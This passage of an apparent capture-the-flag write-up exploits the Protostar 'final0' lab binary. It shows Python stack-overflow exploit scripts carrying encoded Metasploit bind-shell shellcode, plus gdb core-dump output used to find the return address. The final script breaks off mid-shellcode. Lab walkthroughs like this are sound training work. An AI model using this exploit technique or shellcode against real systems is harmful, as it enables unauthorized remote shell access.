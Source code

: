 I used this shellcode after the return, to generate a basic script:

```
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2995))

offset = 532
ret = "\xEF\xBE\xAD\xDE"
nop = "\x90"*16
junk = "a"*(offset-len(nop))
junk2 = "\x90" * 12

shellcode = "\xdb\xce\xd9\x74\x24\xf4\xbb\xa3\xc2\x12\x69\x58\x2b\xc9\xb1" \
"\x14\x31\x58\x19\x03\x58\x19\x83\xe8\xfc\x41\x37\x23\xb2\x72" \
"\x5b\x17\x07\x2f\xf6\x9a\x0e\x2e\xb6\xfd\xdd\x30\xec\x5f\x8c" \
"\x58\xec\x62\x21\xc4\x78\x73\x10\xa4\xf5\x92\xf8\x22\x5e\x98" \
"\x7d\x23\x1f\x26\xcd\x37\x10\x40\xfc\xb7\x13\x3d\x98\x7a\x13" \
"\xae\x3c\xee\x2b\x89\x73\x6e\x1a\x50\x74\x06\xb2\x8d\xf7\xbe" \
"\xa4\xfe\x95\x57\x5b\x88\xb9\xf7\xf0\x03\xdc\x47\xfd\xde\x9f"

s.send(nop + junk + ret + junk2 + shellcode)
```

This script is pretty simple, just getting to the return address, and then adding a nop sled, and the shellcode afterwards.  It just needs to have a return address to the shellcode, which we can then find using gdb.

```
root@protostar:/home/user# gdb --quiet --core=/tmp/core.11.final0.14867 
Core was generated by `/opt/protostar/bin/final0'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/10x 0xbffffcd0
0xbffffcd0: 0x90909090 0x90909090 0x90909090 0x74d9cedb
0xbffffce0: 0xa3bbf424 0x586912c2 0x14b1c92b 0x03195831
0xbffffcf0: 0xe8831958 0x233741fc
```

It looks safe to use 0xbffffcd0, the start of the nop sled. 

The final script ends up looking like:

```
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2995))

offset = 532
ret = "\xd0\xfc\xff\xbf" #0xbffffcd0
junk = "a"*offset
nop = "\x90" * 12

#msfpayload linux/x86/shell_bind_tcp R | msfencode -b '\x00\xff\x0d\x0a' -e x86/shikata_ga_nai -t c
shellcode = "\xdb\xce\xd9\x74\x24\xf4\xbb\xa3\xc2\x12\x69\x58\x2b\xc9\xb1" \
"\x14\x31\x58\x19\x03\x58\x19\x83\xe8\xfc\x41\x37\x23\xb2\x72" \
"\x5b\x17\x07\x2f\xf6\x9a\x0e\x2e\xb6\xfd\xdd\x30\xec\x5f\x8c" \
"\x58\xec\x62\x21\xc4\x78\x73\x10\xa4\xf5\x92\xf8\x22\x5e\x98" \
"\x7d\x23\x1f\x26\xcd\x37\x10\x40\xfc\xb7\x13\x3d\x98\x7a\x13" \
```